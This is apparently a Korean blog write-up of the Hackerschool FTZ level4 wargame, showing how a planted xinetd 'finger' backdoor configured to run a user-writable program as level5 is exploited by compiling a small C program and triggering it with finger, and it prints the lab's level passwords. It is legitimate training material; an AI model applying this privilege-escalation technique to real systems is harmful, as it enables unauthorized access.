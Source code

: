 ```yaml
---
layout: post
title: "Hackerschool FTZ-level4"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/22/
---
```

```bash
login as: level4
level4@~~~~'s password:
[level4@ftz level4]$
```


level4/suck my brain으로 접속하자.


```bash
hint public_html tmp
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다!


[level4@ftz level4]$
```


백도어를 심어놨다면 그걸 이용해서 level5의 권한을 얻어낼 수 있을 것이다.


```bash
login as: level4
level4@~~~~'s password:
[level4@ftz level4]$[level4@ftz level4]$ cd /etc/xinetd.d 
[level4@ftz xinetd.d]$ ls 
backdoor     daytime      echo-udp  rexec   rsync     sgi_fam  time 
chargen      daytime-udp  finger    rlogin  servers   talk     time-udp 
chargen-udp  echo         ntalk     rsh     services  telnet 
[level4@ftz xinetd.d]$
```


가장 앞에 backdoor 파일이 보인다.


```bash
login as: level4
level4@~~~~'s password:
[level4@ftz level4]$[level4@ftz xinetd.d]$ cat backdoor 
service finger 
{ 
        disable = no 
        flags           = REUSE 
        socket_type     = stream 
        wait            = no 
        user            = level5 
        server          = /home/level4/tmp/backdoor 
        log_on_failure  += USERID 
} 
[level4@ftz xinetd.d]$
```


백도어를 읽으면 이렇게 나온다. 아무래도 finger명령어를 설정해 주는 프로그램인 것 같아 보인다. finger 명령어에 대한 정보는 여기서 확인하자. 

[https://geundi.tistory.com/45](./https://geundi.tistory.com/45)
```bash
user= level5 
server= /home/level4/tmp/backdoor
```


밑의 이 두 줄이 중요하다. 유저의 권한값을 level5를 줘서, /home/level4/tmp 안의 백도어를 실행시킨다는 것이다.


```bash
[level4@ftz tmp]$ cd /home/level4/tmp 
[level4@ftz tmp]$ ls 
[level4@ftz tmp]$
```


그러나 tmp폴더 안에는 아무것도 들어있지 않다. finger 명령어가 backdoor 파일을 실행시킬 수 있게, 우리가 직접 프로그래밍을 해주자.


```bash
[level4@ftz tmp]$ vi backdoor.c 
[level4@ftz tmp]$ cat backdoor.c 
#include <stdio.h>
int main() 
{ 
        system("my-pass"); 
}
```


개인적으로 리눅스에서 프로그래밍을 할 때에는 vi편집기가 가장 편하다고 생각한다.

위와 같이 c 프로그래밍을 해 주고, 컴파일을 해 실행파일을 만들자.


```bash
[level4@ftz tmp]$ gcc -o backdoor backdoor.c 
[level4@ftz tmp]$
```


c 소스를 컴파일 할 때에는 gcc -o (만들 실행파일 이름) (소스 파일 이름)을 사용해 주면 된다.

finger이 실행할 파일명은 backdoor이므로 만들 실행파일은 backdoor로 해 주자.


```bash
[level4@ftz tmp]$ finger @localhost 
^[[H^[[J 
Level5 Password is "what is your name?".
```


그 뒤, finger 명령어를 실행시킨다. 여기서 @localhost를 써주는 이유는, finger을 로컬로 보내 level5의 권한으로

my-pass 명령을 실행시키게 해주기 위함이다. 

http://www.hackerschool.org/HS_Boards/zboard.php?id=QNA_level&page=1&sn1=&divpage=1&sn=off&ss=on&sc=on&select_arrange=headnum&desc=asc&no=3247

이해가 잘 되지 않는다면 참고하시길.

level5's password:"what is your name?"

